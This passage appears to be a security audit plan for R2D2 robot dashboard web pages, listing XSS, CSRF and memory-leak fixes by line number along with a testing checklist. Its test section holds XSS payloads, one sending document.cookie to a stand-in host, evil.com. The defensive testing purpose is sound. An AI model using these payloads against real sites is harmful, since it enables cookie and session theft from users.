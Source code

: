 ### P2 - Medium (Fix in Phase 3)
6. **XSS-1, XSS-2** - Static content innerHTML (low risk but bad pattern)
7. **LEAK-1, LEAK-2, LEAK-3, LEAK-5** - Various memory leaks

---

## Detailed Fix Locations

### r2d2_wcb_mood_dashboard.html
- **Line 660-664:** Add auth header to mood execution
- **Line 691-693:** Add auth header to mood stop
- **Line 714:** Add auth header to status poll
- **Line 772:** Add auth header to connection check
- **Line 819, 860:** Replace innerHTML with textContent
- **Line 709:** Store interval ID for cleanup
- **Line 874-879:** Use ToastManager class for cleanup

### r2d2_enhanced_dashboard.html
- **Lines 2955-2968:** Sanitize behavior.name and behavior.priority
- **Lines 3042-3058:** Sanitize character.name and character.reaction
- **Lines 3247-3253:** Store interval IDs and add cleanup
- **All fetch() calls:** Add authentication headers
- **Add:** Global cleanup on window.beforeunload

---

## Testing Requirements

### Security Testing Checklist
- [ ] XSS payload injection in character names
- [ ] XSS payload injection in behavior names
- [ ] CSRF attack simulation from external domain
- [ ] Memory profiling over 1-hour session
- [ ] Auth token validation on all endpoints
- [ ] 401 response handling
- [ ] Token refresh flow
- [ ] Rate limiting validation

### Test Payloads
```javascript
// XSS Test Payloads
const xssPayloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "Luke Skywalker<script>fetch('http://evil.com/steal?data='+document.cookie)</script>",
    "<iframe src='javascript:alert(1)'></iframe>"
];

// CSRF Test
// Create malicious HTML page that posts to mood API
```

---